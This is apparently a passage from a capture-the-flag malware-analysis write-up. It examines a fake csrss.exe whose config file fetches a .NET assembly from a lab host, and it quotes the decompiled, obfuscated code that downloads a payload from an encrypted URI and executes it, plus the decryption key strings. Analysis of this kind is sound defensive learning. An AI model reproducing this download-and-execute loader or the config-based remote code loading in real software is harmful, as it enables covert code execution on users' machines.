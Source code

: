 Lets do this for `csrss.exe`, `csrss.exe.config` and `wanted.pdf`.
`csrss.exe` is a MS-DOS executable, and we can assume `csrss.exe.config` is its config file.
`wanted.pdf` does not give anything  of value.
Looking closer at the config file, we see the line:
```XML
            <codeBase version="0.0.0.0" href="http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json"/>

```
We can download this file as well.
![Downloaded file](/assets/img/writeup/20241216161108.png)

We see this file is actually a `.NET` assembly DLL. Let's use `ILSpy` to see what it is doing.

Looking around the decompiled binary, we see an interesting function being called in one of the methods:
![Interesting function](/assets/img/writeup/20241216161549.png)

If we can see what Uri's get passed into this function, we may be able to find some more information.

Looking around, we see this method being called on the line
```c#
byte[] array = indigowilddrain95354(new Uri(magentaboorishgirl01630.indigoinnocentbeast26519("ZzfccaKJB3CrDvOnj/6io5OR7jZGL0pr0sLO/ZcRNSa1JLrHA+k2RN1QkelHxKVvhrtiCDD14Aaxc266kJOzF59MfhoI5hJjc5hx7kvGAFw=")));
```
In the same function the array gets executed.

However, it seems that this Uri is first transformed by `magentaboorishgirl01630.indigoinnocentbeast26519`. Lets see what this method is.

*This is what some variables that may come in handy later are set as in the class*
```c#
static magentaboorishgirl01630()
{
	creamhollowticket40621 = "tbbliftalildywic";
	fuchsiaaromaticmarket70603 = Encoding.UTF8.GetBytes(creamhollowticket40621);
	mintpumpedowl79724 = "vudzvuokmioomyialpkyydvgqdmdkdxy";
	steelshiveringpark49573 = charcoalderangedcarriage58994(mintpumpedowl79724);
	cipherMode = CipherMode.CBC;
	paddingMode = PaddingMode.Zeros;
}
```
